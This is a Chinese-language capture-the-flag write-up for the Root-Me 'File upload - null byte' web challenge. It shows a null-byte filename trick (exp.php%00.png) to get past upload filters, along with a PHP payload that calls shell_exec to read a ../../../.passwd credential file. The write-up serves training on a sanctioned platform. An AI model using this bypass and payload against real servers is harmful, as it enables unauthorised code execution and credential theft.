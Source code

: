 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-null-byte)] [[解题报告](http://exp-blog.com/2019/01/14/pid-2995/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】、【[Web-Server : File upload - MIME type](http://exp-blog.com/2019/01/13/pid-2987/)】的渗透思路是一样的，区别在于之前的两种绕过方式均被封锁了。

这次提示的绕过方式是空字节漏洞 null byte ，依然在文件名上做文章，构造 payloads 文件 `exp.php%00.png`：

```php
<?php
	// exp.php%00.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

此文件名在上传时，可以在前端后缀欺骗，而后端在读取时遇到 `%00` 空字节会截断后面部分。

上传成功后获得 `exp.php%00.png` 文件的完整 URI，手工去掉末尾的 `%00.png` 后拼接到 URL，即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B18%5D%20%5B25P%5D%20File%20upload%20-%20null%20byte/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
